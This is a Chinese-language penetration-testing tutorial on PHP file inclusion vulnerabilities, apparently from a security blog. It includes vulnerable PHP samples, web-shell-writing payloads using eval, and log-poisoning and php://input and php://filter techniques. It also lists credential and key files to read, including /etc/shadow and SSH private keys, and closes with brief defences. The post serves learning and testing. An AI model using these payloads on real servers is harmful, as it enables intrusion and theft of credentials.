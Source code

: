 +++
date = "2016-07-26T09:24:22+08:00"
description = ""
draft = false
tags = ["文件包含"]
title = "文件包含漏洞"
topics = ["Pentest"]

+++

### 0x00 文件包含
程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。

几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多,而在JSP、ASP、ASP.NET程序中却非常少，甚至没有，这是有些语言设计的弊端。

在PHP中经常出现包含漏洞，但这并不意味这其他语言不存在。

### 0x01 常见文件包含函数
```
include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
include_once()和require_once()：若文件中代码已被包含则不会再次包含
```

### 0x02 利用条件
* 程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
* 用户能够控制该动态变量

``` 
注：PHP中只要文件内容符合PHP语法规范，包含时不管扩展名是什么都会被PHP解析，  
   若文件内容不符合PHP语法规范则会暴漏其源码。包含不存在的文件则可能暴露路径
```

### 0x03 漏洞危害
* 执行任意代码
* 读取文件源码或敏感信息
* 包含恶意文件控制网站
* 甚至控制服务器

### 0x04 漏洞分类
* 本地文件包含：可以包含本地文件，在条件允许时甚至能执行代码
    * 读敏感文件，读PHP文件
    * 包含日志文件GetShell
    * 上传图片马，然后包含从而GetShell
    * 包含/proc/self/envion文件GetShell
    * 包含data:或php://input等伪协议
    * 若有phpinfo则可以包含临时文件
* 远程文件包含：可以直接执行任意代码
    * 要保证php.ini中allow_url_fopen和allow_url_include要为On

### 0x05 漏洞挖掘
> 上AWVS或者自己写代码测试

### 0x06 本地包含GetShell
* 示例一

```php
<?php
    if (@$_GET['page']) {  
        include($_GET['page']);
    } else {  
        include "show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload1.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload1_check.png)

* 示例二

```php
<?php
    if (@$_GET['page']) {
        include("./action/".$_GET['page']);
    } else {
        include "./action/show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload2.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload2_check.png)

* %00截断包含(PHP<5.3.4 and magic_quotes_gpc=off)

```php
<?php
    if (@$_GET['page']) {
        include "./action/".$_GET['page'].".php";
        echo "./action/".$_GET['page'].".php";
    } else {
        include "./action/show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload3.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload3_check.png)
还有一个路径长度截断，Linux可以用./或/截断，需要文件名长度大于4096，Windows可以  
用\\.或./或\或/截断，需要大于256，是否能成功截断有多方面原因，可以说是靠运气的

* 包含图片马写shell

```
上传图片马，马包含的代码为<?fputs(fopen("shell.php","w"),"<?php eval(\$_POST['cmd']);?>")?>，
上传后图片路径为/uploadfile/201643.jpg，当访问
http://localhost/dvwa/vulnerabilities/fi/?page=../../uploadfile/201643.jpg时，
将会在fi这个文件夹下生成shell.php,内容为<?php eval($_POST[xxser]);?>
```

* 包含日志GetShell(主要是得到日志的路径)

```
读日志路径：
文件包含漏洞读取apache配置文件
index.php?page=/etc/init.d/httpd
index.php?page=/etc/httpd/conf/httpd.conf
默认位置/var/log/httpd/access_log
```
> 日志会记录客户端请求及服务器响应的信息，访问```http://www.xx.com/<?php phpinfo(); ?>```时，<?php phpinfo(); ?>也会被记录在日志里，也可以插入到User-Agent
![文件包含-包含日志](/img/post/file_include_access.log1.png)
可以通过Burp Suite来绕过编码
![文件包含-包含日志](/img/post/file_include_access.log2.png)
日志内容如下：
![文件包含-包含日志](/img/post/file_include_access.log3.png)
![文件包含-包含日志](/img/post/file_include_access.log4.png)

* 包含环境变量文件GetShell

```
需要PHP运行在CGI模式
然后和包含日志一样，在User-Agent修改为payload
```

* 使用PHP封装协议GetShell

```
allow_url_include=On时,若执行http://www.xxx.com/index.php?page=php://input,并且提
交数据<?php fputs(fopen("shell.php","w"),"<?php eval($_POST['cmd']);?>") ?>
结果将在index.php所在文件下生成一句话文件shell.php
```
![文件包含-用PHP封装协议写shell1](/img/post/file_include_enprotocol1.png)
![文件包含-用PHP封装协议写shell2](/img/post/file_include_enprotocol2.png)

* phpinfo包含临时文件GetShell

```
向phpinfo上传文件则可以返回文件路径，但是文件存在时间很短，
可以用程序持续上传，然后就可以包含你上传的文件了
```

### 0x07 本地包含读文件
* 读敏感文件

![文件包含-读敏感文件](/img/post/file_include_read_file.png)

可读如下敏感文件：
```
Windows：
    C:\boot.ini  //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
    C:\Windows\repair\sam  //存储系统初次安装的密码
    C:\Program Files\mysql\my.ini  //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
    C:\Windows\php.ini  //php配置信息
    C:\Windows\my.ini  //Mysql配置信息
    ...
Linux：
    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history
    /root/.mysql_history
    /proc/self/fd/fd[0-9]*(文件标识符)
    /proc/mounts
    /porc/config.gz
```

* 读PHP文件源码

```
直接包含php文件时会被解析，不能看到源码，可以用封装协议读取：
?page=php://filter/read=convert.base64-encode/resource=config.php
访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码
```

### 0x08 远程包含
注：远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的
![文件包含-远程包含](/img/post/file_include_remote_include.png)
若在a.txt写入```<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['cmd']); ?>") ?>```，可直接写shell

### 0x09 漏洞防御
```
PHP中使用open_basedir配置，将访问限制在指定区域
过滤./\
禁止服务器远程文件包含
```
